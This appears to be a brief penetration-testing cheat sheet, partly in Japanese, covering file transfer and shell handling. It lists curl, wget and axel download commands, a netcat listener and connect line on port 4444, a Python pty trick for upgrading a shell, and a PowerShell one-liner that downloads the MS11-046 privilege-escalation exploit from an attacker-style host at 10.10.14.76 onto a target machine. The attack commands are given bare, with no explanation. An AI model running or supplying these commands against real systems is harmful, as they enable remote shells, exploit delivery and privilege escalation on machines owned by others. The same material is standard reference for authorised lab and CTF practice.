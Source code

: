 
## File transfer
### curl
`curl -o <filename> <URL>`

### wget
`wget -O <filename> <URL>`


### axel
`axel -a -n 20 -o <filename> <URL>`

### Netcat
`nc -nlvp 4444`

`nc -nv 10.11.0.22 4444`

### 対話型シェルのアップグレード
python -c 'import pty;pty.spawn("/bin/bash")'


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.76:9999/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
